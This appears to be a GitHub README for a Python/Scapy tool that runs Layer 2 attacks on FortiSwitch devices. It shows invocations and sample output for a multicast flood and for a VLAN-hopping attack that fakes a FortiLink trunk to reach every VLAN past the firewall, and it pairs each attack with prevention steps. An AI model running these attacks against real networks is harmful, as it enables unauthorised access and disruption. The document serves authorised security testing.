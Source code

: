 # Layer 2 Attack Tool for FortiSwitch

[![License](https://img.shields.io/badge/license-GPLv2-blue.svg)](LICENSE)

## Disclaimer 
This tool is for educational purposes and lawful use only. Always ensure you have the necessary permissions before using it. Unauthorized attacks can lead to criminal charges.

## Overview

This repository contains a tool designed to execute various Layer 2 attacks on a FortiSwitch. While it's targeted at FortiSwitch devices, it may be effective on other switches as well.

## Prerequisites

- Python 3.x
- Scapy
- tcpreplay

## Installation

```bash
apt-get install scapy3
apt-get install tcpreplay
```

## Features

### Flood

Flood will prepare packets in memory, and send out all at maximum speed. Mainly created to test storm control.

#### Attack

```
sudo ./fsw_l2_attack.py flood -t unknown_multicast -c 1000
Launching flood attack: unknown_multicast
Generating 1000 multicast flood packets
Sending packets...Done
```
#### Prevention

Set MAC address learning limit per port to prevent CAM table overflow. Enable storm control to limit impact on network and switch/firewall processes.


### VLAN Hopping

By default Fortiswitches establish ISL tunnels (VLAN Trunks) automatically to other FortiSwitches. This attack will simulate a FortiSwitch and establish a FortiLink ISL Tunnel to a FortiSwitch from your computer. This allows access all VLANs bypassing the Firewall.

#### Attack

```
sudo ./fsw_l2_attack.py vlanhop
Launching vlanhop attack
Listening for LLDP packets...received
System name: SW2-1
System description: FortiSwitch-448E-FPOE v7.2.5,build0453,230707 (GA)
Switchport interface: port1
Switch management address: 10.255.1.6
Listening for Fortigate LLDP TLVs...Found
Switch Serialnumber: S448EFTF23000000
Establishing FortiLink ISL...LACP Trunk established

To access the VLANs from your host run:  sudo ip link add link ens33 name ens33.<vlan-id> type vlan id <vlan-id>
Keep this program running in the background

Detected VLANs (passivly):
200
210
```

#### Prevention

Either disable LLDP completely on the switchports, or change assigned LLDP Profile from 'default-auto-isl' to 'default'.

## Disclaimer

This tool is provided "as is" without any guarantees or warranty. Use at your own risk. Always ensure you are authorized to perform any tests.
License

## License

This project is licensed under the [GNU General Public License v2.0](LICENSE).
